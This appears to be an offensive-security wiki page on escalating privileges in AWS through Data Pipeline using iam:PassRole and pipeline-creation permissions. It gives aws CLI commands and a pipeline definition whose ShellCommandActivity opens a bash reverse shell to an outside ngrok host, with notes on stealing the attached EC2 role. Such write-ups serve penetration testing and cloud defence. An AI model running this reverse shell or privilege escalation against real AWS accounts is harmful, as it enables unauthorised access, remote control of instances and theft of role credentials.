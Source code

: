 # AWS - Datapipeline Privesc

## datapipeline

For more info about datapipeline check:

[[../../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md]]

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Users with these **permissions can escalate privileges by creating a Data Pipeline** to execute arbitrary commands using the **permissions of the assigned role:**

```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```

After pipeline creation, the attacker updates its definition to dictate specific actions or resource creations:

```json
{
  "objects": [
    {
      "id": "CreateDirectory",
      "type": "ShellCommandActivity",
      "command": "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
      "runsOn": { "ref": "instance" }
    },
    {
      "id": "Default",
      "scheduleType": "ondemand",
      "failureAndRerunMode": "CASCADE",
      "name": "Default",
      "role": "assumable_datapipeline",
      "resourceRole": "assumable_datapipeline"
    },
    {
      "id": "instance",
      "name": "instance",
      "type": "Ec2Resource",
      "actionOnTaskFailure": "terminate",
      "actionOnResourceFailure": "retryAll",
      "maximumRetries": "1",
      "instanceType": "t2.micro",
      "securityGroups": ["default"],
      "role": "assumable_datapipeline",
      "resourceRole": "assumable_ec2_profile_instance"
    }
  ]
}
```

> [!NOTE]
> Note that the **role** in **line 14, 15 and 27** needs to be a role **assumable by datapipeline.amazonaws.com** and the role in **line 28** needs to be a **role assumable by ec2.amazonaws.com with a EC2 profile instance**.
>
> Moreover, the EC2 instance will only have access to the role assumable by the EC2 instance (so you can only steal that one).

```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
    --pipeline-definition file:///pipeline/definition.json
```

The **pipeline definition file, crafted by the attacker, includes directives to execute commands** or create resources via the AWS API, leveraging the Data Pipeline's role permissions to potentially gain additional privileges.

**Potential Impact:** Direct privesc to the ec2 service role specified.

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

